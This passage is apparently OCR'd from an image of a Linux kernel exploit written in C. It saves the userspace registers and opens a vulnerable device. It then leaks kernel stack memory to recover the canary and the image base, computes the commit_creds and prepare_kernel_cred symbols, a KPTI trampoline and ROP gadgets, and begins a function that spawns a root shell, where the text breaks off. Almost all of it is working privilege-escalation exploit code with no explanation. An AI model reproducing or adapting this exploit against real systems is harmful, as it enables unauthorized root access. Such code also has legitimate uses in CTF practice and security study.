 ```c

/* The following two gadgets are used to read arbitrary address */
unsigned long pop_rax_ret;	//pop rax; ret;
unsigned long read_rax_pop_rbp_ret; //mov eax, dword ptr[rax + 0x10]; pop rbp; ret; 

/* This gadget is used to pass parameters */
unsigned long pop_rdi_rbp_ret; //pop rdi; pop rbp; ret;

/* Temporarily used variable */
unsigned long tmp;

void save_userspace ()
{
	__asm__(
		".intel_syntax noprefix;"
		"mov us_cs, cs;"
		"mov us_rsp, rsp;"
		"mov us_ss, ss;"
		"pushf;"
		"pop us_rflags;"
		".att_syntax;"	
	);
}

void opendev ()
{
	g_fd = open (DEV, O_RDWR);
}

void leakinfo ()
{
	unsigned long payload[PLEN] = {0};
	ssize_t cnt = read (g_fd, payload, sizeof(payload));

	printf("[DEBUG] read %zd bytes\n", cnt);

	//show the information we leaked from kernel
	for (int i = 0; i < PLEN; i ++)
	{
		printf ("[%02d] 0x%lx\n", i, payload[i]);
	}

	canary = payload[16];
	imagebase = payload[38] & 0xFFFFFFFFFFFF0000;
	ksymtab_commit_creds = imagebase + 0xf87d90;
	ksymtab_prepare_kernel_cred = imagebase + 0xf8d4fc;
	kpti_trampoline = imagebase + 0x200f10 + 0x16;

	pop_rax_ret = imagebase + 0x4d11;
	read_rax_pop_rbp_ret = imagebase + 0x4aae;
	pop_rdi_rbp_ret = imagebase + 0x38a0;

	printf ("[DEBUG] \ncanary:0x%lx\nimagebase:0x%lx\nksysmtab_commit_creds:0x%lx\nksymtab_prepare_kernel_cred:0x%lx\nkpti_trampline:0x%lx\npop_rax_ret:0x%lx\nread_rax_pop_rbp_ret:0x%lx\npop_rdi_rbp_ret:0x%lx\n", canary, imagebase, ksymtab_commit_creds, ksymtab_prepare_kernel_cred, kpti_trampoline, pop_rax_ret, read_rax_pop_rbp_ret, pop_rdi_rbp_ret);
}

void spawn_root_shell ()
{
	if (getuid () == 0)
	{
		printf ("[DEBUG] Congratulations! we'll get a root shell\n");
```